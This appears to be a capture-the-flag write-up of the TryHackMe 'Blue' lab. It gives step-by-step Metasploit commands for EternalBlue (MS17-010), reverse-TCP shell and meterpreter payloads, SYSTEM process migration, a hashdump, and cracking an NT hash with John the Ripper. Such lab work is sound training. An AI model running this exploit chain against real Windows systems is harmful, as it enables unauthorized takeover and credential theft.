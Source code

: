 ```yaml
---
title:  "Blue"
author: fireblood
categories: [TryHackMe, Offensive Pentesting]
tags: [tryhackme, blue, ms17-010, metasploit, privilege escalation]
pin: false
math: true
mermaid: true
image:
  path: /assets/img/images/02.Blue/blue.jpeg
---
```


Deploy & hack into a Windows machine, leveraging common misconfigurations issues.

<!--more-->

## Task 1

Scan the machine for open ports and vulnerabilities using nmap.

```
nmap -sVC --script vuln  10.10.91.185
```

<img src="{{'/assets/img/images/02.Blue/01.png' | prepend: site.baseurl }}">

<img src="{{'/assets/img/images/02.Blue/02.png' | prepend: site.baseurl }}">

From the scan results we can see that the machine is vulnerable to ms17-010.

## Task 2

Let's open metasploit.

```
msfconsole -q
```

Search for the exploit ms17-010 and use exploit/windows/smb/ms17_010_eternalblue.

```
search ms17-010
```

```
use 0
```

<img src="{{'/assets/img/images/02.Blue/03.png' | prepend: site.baseurl }}">

### Approach 1

The payload is set by default to windows/x64/meterpreter/reverse tcp.

See the available options and change the rport and lhost.

```
show options
```

```
set rhosts 10.10.91.185
```

```
set lhost tun0
```

<img src="{{'/assets/img/images/02.Blue/04.png' | prepend: site.baseurl }}">

Run the exploit.

```
exploit
```

We now got a meterpreter shell. Let's quickly find out the information about the machine. We are logged in as nt authority\system. Now we have all privileges to the machine.

<img src="{{'/assets/img/images/02.Blue/05.png' | prepend: site.baseurl }}">

<img src="{{'/assets/img/images/02.Blue/06.png' | prepend: site.baseurl }}" height="400">

### Approach 2

Set the payload to windows/x64/shell/reverse_tcp.

```
set payload windows/x64/shell/reverse_tcp
```
See the available options and change the rport and lhost.

```
show options
```

```
set rhosts 10.10.91.185
```

```
set lhost tun0
```

<img src="{{'/assets/img/images/02.Blue/07.png' | prepend: site.baseurl }}">

Run the exploit.

```
exploit
```
We now got a shell and we will elevate this shell to meterpreter shell. Background the shell by hitting Ctrl+Z.

<img src="{{'/assets/img/images/02.Blue/08.png' | prepend: site.baseurl }}">

Use the module post/multi/manage/shell_to_meterpreter to get a meterpreter shell from the existing non-meterpreter shell.

Set lhost, session and run it.

```
set lhost tun0
```

```
set session 2
```

```
exploit
```

<img src="{{'/assets/img/images/02.Blue/09.png' | prepend: site.baseurl }}">

<img src="{{'/assets/img/images/02.Blue/10.png' | prepend: site.baseurl }}">

## Task 3

Let's check whether we are running as nt authority\system or not using getsystem.

```
getsystem
```

We are already running as SYSTEM and run ps to list all the processes.

```
ps
```

<img src="{{'/assets/img/images/02.Blue/11.png' | prepend: site.baseurl }}">

We will now migrate to a different process that is running as NT AUTHORITY\SYSTEM.

```
migrate 704
```

<img src="{{'/assets/img/images/02.Blue/12.png' | prepend: site.baseurl }}" height="100">

## Task 4

We can run hashdump in the meterpreter shell to get the hashes.

<img src="{{'/assets/img/images/02.Blue/13.png' | prepend: site.baseurl }}">

Then we will crack the hash of user Jon with John The Ripper.

```
john hash.txt --format=NT --wordlist=/usr/share/wordlists/rockyou.txt
```

<img src="{{'/assets/img/images/02.Blue/14.png' | prepend: site.baseurl }}">

## Task 5

Now let's find the flags. The first flag is located in the location C:\ .

<img src="{{'/assets/img/images/02.Blue/15.png' | prepend: site.baseurl }}">

The second flag is located at the location where passwords are stored. The passwords are stored in SAM file. So, the second flag would be in the location C: \windows\system32\config.

<img src="{{'/assets/img/images/02.Blue/16.png' | prepend: site.baseurl }}" height="100">

<img src="{{'/assets/img/images/02.Blue/17.png' | prepend: site.baseurl }}" height="100">

The third flag is located in the Documents folder of the user Jon.

<img src="{{'/assets/img/images/02.Blue/18.png' | prepend: site.baseurl }}" height="400">
